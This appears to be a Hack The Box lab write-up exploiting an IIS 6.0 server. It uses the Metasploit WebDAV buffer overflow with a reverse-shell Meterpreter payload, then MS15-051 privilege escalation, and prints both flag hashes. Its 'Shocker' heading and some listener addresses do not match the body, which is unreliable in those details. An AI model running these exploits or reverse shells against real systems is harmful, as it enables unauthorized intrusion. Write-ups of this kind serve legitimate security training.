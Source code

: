 # Shocker
### 10.10.10.56
##### Solved by: dotaplayer365 and revdev

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.14

Nmap scan report for 10.10.10.14
Host is up (0.15s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds
```



The website shows "Under Construction"

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Grandpa/images/Website.PNG "Website")

We try visiting some webpages and we get something like this

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Grandpa/images/index.aspx.PNG "index.aspx")


Information we have so far:
* IIS 6.0
* Misconfiguration

There is a good chance that a known exploit would work because of the misconfiguration

Searching exploits for IIS 6.0 
```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Grandpa# searchsploit IIS 6.0 | grep -v "5.0"
--------------------------------------------------------------- ----------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------- ----------------------------------
Microsoft IIS 6.0 - /AUX / '.aspx' Remote Denial of Service    | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow (Stack Exhaustion) Deni | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)    | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)  | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)    | windows/remote/8806.pl
Microsoft IIS 6.0 / 7.5 (+ PHP) - Multiple Vulnerabilities     | windows/remote/19033.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Buffer Overf | windows/remote/41738.py
--------------------------------------------------------------- ----------------------------------
```

We select the latest exploit and give a check if its present in Metasploit as well.

```{r, engine='bash', count_lines}
msf > search ScStoragePathFromUrl

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual   Microsoft IIS WebDav ScStoragePathFromUrl Overflow

```

_Perfect!_

So we would be using something like this

```{r, engine='bash', count_lines}
Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          10.10.10.14      yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

And there you have it!!

Easier than expected
```
msf exploit(iis_webdav_scstoragepathfromurl) > exploit
[*] Started reverse TCP handler on 10.10.14.248:4444 
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.14:1036) at 2017-10-15 23:25:52 +0530
meterpreter > 
```

When we try to go into the users directory, it gives us "Access Denied"

Looks like Priv esc should give us both the flags.

Time to go huntin.


After some enumeration we see that there are a couple of processes running under NT AUTHORITY 

```{r, engine='bash', count_lines}
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                          Path
 ---   ----  ----              ----  -------  ----                          ----
...                                                  
 1172  388   inetinfo.exe                                                   
 1212  388   svchost.exe                                                    
 1436  1500  w3wp.exe          x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1500  388   svchost.exe                                                    
 1588  388   svchost.exe                                                    
 1668  1752  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
 1672  388   alg.exe                                                        
 1820  588   davcdata.exe      x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 1992  1436  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
...                                            
```

Lets migrate into that process

```{r, engine='bash', count_lines}
meterpreter > migrate 1820
[*] Migrating from 1668 to 1820...
[*] Migration completed successfully.
```

We still get Access Denied, Time to use the exploit suggester

```
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

After trying a few of the suggested exploits, this one worked
```
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.106.133  yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
   
   
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.248:4443 
[*] Launching notepad to host the exploit...
[+] Process 2564 launched.
[*] Reflectively injecting the exploit DLL into 2564...
[*] Injecting exploit into 2564...
[*] Exploit injected. Injecting payload into 2564...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.248:4443 -> 10.10.10.14:1041) at 2017-10-15 23:36:44 +0530
meterpreter > 
```

**user.txt**
```
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
```


**root.txt**
```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```

